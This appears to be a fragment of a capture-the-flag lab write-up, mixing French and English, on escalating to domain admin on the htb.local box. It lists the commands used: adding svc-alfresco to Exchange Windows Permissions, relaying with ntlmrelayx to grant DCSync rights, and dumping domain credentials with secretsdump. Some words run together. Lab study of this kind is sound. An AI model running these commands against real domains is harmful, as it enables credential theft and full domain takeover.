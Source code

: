 # PrivExchange

## apres ajout de svc-alfresco au groupe "Exchange Windows Permission" on lance le DCSync sur Exchange: net group “Exchange Windows Permissions” svc-alfresco /add

python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco

After a minute (you have to browse to your local host and enter svc-alfresco’s creds ) we see the connection coming in at ntlmrelayx, which gives our user DCSync privilegesA schematic of the above attack is displayed below, showing the steps that are performed to escalate privileges:https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/DCSyncattack viasecretsdump

Now all we need to do is run DCSyncattack viasecretsdumppython 

secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc

